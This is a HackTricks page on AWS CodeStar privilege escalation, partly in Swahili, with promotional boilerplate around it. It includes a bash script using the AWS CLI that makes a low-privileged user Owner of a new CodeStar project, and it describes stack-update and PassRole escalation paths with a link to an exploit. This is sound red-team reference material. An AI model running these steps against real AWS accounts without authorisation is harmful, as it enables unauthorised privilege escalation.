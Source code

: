 # AWS - Codestar Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Codestar

You can find more information about codestar in:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

With these permissions you can **abuse a codestar IAM Role** to perform **arbitrary actions** through a **cloudformation template**. Check the following page:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

Hii mbinu inatumia `codestar:CreateProject` kuunda mradi wa codestar, na `codestar:AssociateTeamMember` kufanya mtumiaji wa IAM kuwa **mmiliki** wa **mradi** mpya wa CodeStar, ambayo itawapa **sera mpya yenye ruhusa chache za ziada**.
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
Ikiwa wewe ni **mwanachama wa mradi** tayari unaweza kutumia ruhusa **`codestar:UpdateTeamMember`** kuboresha **nafasi yako** kuwa mmiliki badala ya `codestar:AssociateTeamMember`.

**Athari Zinazoweza Kutokea:** Privesc kwa sera ya codestar iliyoundwa. Unaweza kupata mfano wa sera hiyo katika:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **Unda Mradi Mpya:**
* Tumia hatua **`codestar:CreateProjectFromTemplate`** kuanzisha uundaji wa mradi mpya.
* Baada ya uundaji kufanikiwa, ufikiaji unapatikana moja kwa moja kwa **`cloudformation:UpdateStack`**.
* Ufikiaji huu unalenga stack inayohusiana na nafasi ya `CodeStarWorker-<jina la mradi wa kawaida>-CloudFormation`.
2. **Sasisha Stack Lengo:**
* Kwa ruhusa za CloudFormation zilizotolewa,endelea kusasisha stack iliyoainishwa.
* Jina la stack kawaida litafuata moja ya mifumo miwili:
* `awscodestar-<jina la mradi wa kawaida>-infrastructure`
* `awscodestar-<jina la mradi wa kawaida>-lambda`
* Jina halisi linategemea template iliyochaguliwa (inarejelea mfano wa script ya unyakuzi).
3. **Ufikiaji na Ruhusa:**
* Baada ya sasisho, unapata uwezo uliopewa **CloudFormation IAM role** iliyounganishwa na stack.
* Kumbuka: Hii haipatii moja kwa moja ruhusa kamili za msimamizi. Rasilimali zingine zisizo sahihi ndani ya mazingira zinaweza kuhitajika ili kuongeza ruhusa zaidi.

Kwa maelezo zaidi angalia utafiti wa asili: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
Unaweza kupata unyakuzi katika [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py)

**Athari Zinazoweza Kutokea:** Privesc kwa nafasi ya cloudformation IAM.

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki hila za unyakuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
